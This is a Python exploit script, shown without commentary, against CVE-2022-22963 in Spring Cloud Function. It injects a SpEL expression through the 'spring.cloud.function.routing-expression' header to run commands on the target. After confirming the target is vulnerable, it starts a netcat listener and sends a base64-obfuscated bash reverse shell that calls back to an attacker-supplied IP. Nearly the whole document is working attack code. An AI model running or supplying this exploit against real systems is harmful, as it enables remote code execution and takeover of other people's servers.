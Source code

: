 ```python
#!/usr/bin/python3
import requests
import argparse
import socket, sys, time
from threading import Thread
import os
import base64

def nc_listener():
    os.system("nc -lnvp 4444")

def exploit(url,cmd):
    vulnURL = f'{url}/functionRouter'
    payload = f'T(java.lang.Runtime).getRuntime().exec("{cmd}")'
    body = '.'
    headers = {
        'spring.cloud.function.routing-expression':payload,
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded'
        }
    response = requests.post(url = vulnURL, data = body, headers = headers, verify=False, timeout=5)
    return response

def vuln(code,text):
    resp = '"error":"Internal Server Error"'
    if code == 500 and resp in text:
        print(f'[+] {args.url} is vulnerable\n')
        return True
    else:
        print(f'[-] {args.url} is not vulnerable\n')
        return False

if __name__ == "__main__":
    
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url", dest="url", help="URL of the site with spring Framework, example: http://vulnerablesite.com:8080")
    args = parser.parse_args()
    
    if args.url is None:
        parser.print_help()
        sys.exit(1)
    
    print(f"[+] Target {args.url}\n")
    print(f"[+] Checking if {args.url} is vulnerable to CVE-2022-22963...\n")
    response = exploit(args.url,"touch /tmp/pwned")
    v = vuln(response.status_code,response.text)
    if v == True:
        chk = input("[/] Attempt to take a reverse shell? [y/n]")
        if chk == 'y' or chk == 'Y':
            listener_thread = Thread(target=nc_listener)
            listener_thread.start()
            time.sleep(2)
            attacker_ip=input("[$$] Attacker IP:  ")
            command = f"bash -i >& /dev/tcp/{attacker_ip}/4444 0>&1"
            final_command = 'bash -c {echo,' + ((str(base64.b64encode(command.encode('utf-8')))).strip('b')).strip("'") + '}|{base64,-d}|{bash,-i}'
            exploit(args.url,final_command)
```